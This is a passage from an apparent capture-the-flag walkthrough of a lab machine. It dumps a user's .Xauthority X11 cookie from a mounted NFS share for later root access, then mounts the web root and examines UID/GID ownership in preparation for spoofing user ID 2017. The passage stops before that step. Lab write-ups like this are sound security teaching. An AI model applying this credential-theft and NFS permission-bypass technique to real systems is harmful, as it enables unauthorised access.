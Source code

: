     dummy@hacky:/mnt$ xxd .Xauthority 
    00000000: 0100 000c 7371 7561 7368 6564 2e68 7462  ....squashed.htb
    00000010: 0001 3000 124d 4954 2d4d 4147 4943 2d43  ..0..MIT-MAGIC-C
    00000020: 4f4f 4b49 452d 3100 10f9 b01f 9b13 d3f7  OOKIE-1.........
    00000030: 4f29 2801 ff73 88ea bf                   O)(..s...
    
    

I’ll use this later to get root.

#### /var/www/html

I’ll unmount the home directory and mount the web root:

    
    
    oxdf@hacky$ sudo umount /mnt 
    oxdf@hacky$ sudo mount -t nfs 10.10.11.191:/var/www/html /mnt
    

I’m not able to access much of anything:

    
    
    oxdf@hacky$ find /mnt -ls
       133456      4 drwxr-xr--   5 2017     www-data     4096 Nov 11 20:35 /mnt
    find: ‘/mnt/.htaccess’: Permission denied
    find: ‘/mnt/index.html’: Permission denied
    find: ‘/mnt/images’: Permission denied
    find: ‘/mnt/css’: Permission denied
    find: ‘/mnt/js’: Permission denied
    oxdf@hacky$ ls -l /mnt
    ls: cannot access '/mnt/index.html': Permission denied
    ls: cannot access '/mnt/images': Permission denied
    ls: cannot access '/mnt/css': Permission denied
    ls: cannot access '/mnt/js': Permission denied
    total 0
    ?????????? ? ? ? ?            ? css
    ?????????? ? ? ? ?            ? images
    ?????????? ? ? ? ?            ? index.html
    ?????????? ? ? ? ?            ? js
    

Looking at the directory itself, it seems to be owned by userid 2017 and
groupid of www-data on my system, which is 33:

    
    
    oxdf@hacky$ ls -ld /mnt
    drwxr-xr-- 5 2017 www-data 4096 Nov 11 20:35 /mnt
    oxdf@hacky$ cat /etc/group | grep www-data
    www-data:x:33:
    

## Shell as alex

### Get Access to Web Root

The web root is owned by userid 2017, and groupid 33. I’ll set my dummy userid
to 2017, and drop into a shell as dummy:
